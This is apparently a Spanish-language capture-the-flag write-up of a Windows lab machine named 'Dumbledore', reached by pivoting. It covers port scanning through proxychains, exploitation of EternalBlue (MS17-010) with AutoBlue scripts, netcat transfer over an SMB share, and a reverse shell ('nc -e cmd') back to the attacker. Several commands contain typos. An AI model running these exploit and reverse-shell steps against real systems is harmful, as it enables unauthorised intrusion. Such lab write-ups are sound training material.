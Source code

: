```yaml
---
title: "4. Dumbledore"
description: "Detalla el proceso de ataque a una máquina Windows, enfocándose en la explotación de la vulnerabilidad EternalBlue (MS17-010) en el servicio SMB para obtener acceso al sistema y una shell completa."
pubDate: 2025-05-20
---
```


[2. Nagini](../2-nagini) #win

 > [!NOTE]
 > La fase de Pivoting y buscar host ya está hecha con Fawkes al estar en la misma subred

# Fase de reconocimiento

Nos encontramos ante un Windows.

## Buscar puertos

````
proxychains nmap -sT -Pn --top-ports 500 -open -T5 -v -n <ip4> 2>/dev/null
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240423184902.png)

## Miramos por SMB ante que nos encontramos

````
proxychains crackmapexec smb <ip4> 2>/dev/null
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240423185017.png)

# Fase de ataque

## EternalBlue

Como vemos que tiene SMBv1 activo.
Podemos usar tanto Metaexploit como Autoblue.
https://github.com/3ndG4me/AutoBlue-MS17-010

1. Comprobamos que hay pipes expuestos

````
proxychains python3 eternal_checker.py <ip4>
````

2. Lanzamos el exploit

````
proxychains python2.7 zzz_exploit.py <ip4>
````

\[+\] ==pwned!==

## Conseguimos una shell completa

1. Descargamos netcat https://eternallybored.org/misc/netcat/
1. Redirigimos con socat el puerto 445 en Nagini y Aragog

````
./socat TCP-LISTEN:445, fork TCP:<ip1>:445
````

3. Abrimos un server smb en el equipo atacante

````
smbserver.py smbFolder $(pwd) -smb2support
````

4. Copiamos a través de archivos compartidos el netcat

````
copy \<ip2>\smbFolder
c64.exe C:\Windowss\Temp
c.exe
````

5. Nos ponemos en escucha por el puerto 445

````
rlwrap nc -nlvp 445
````

6. Ejecutamos el netcat

````
C:\Windows\Temp
c.exe -e cmd <ip2> 445
````
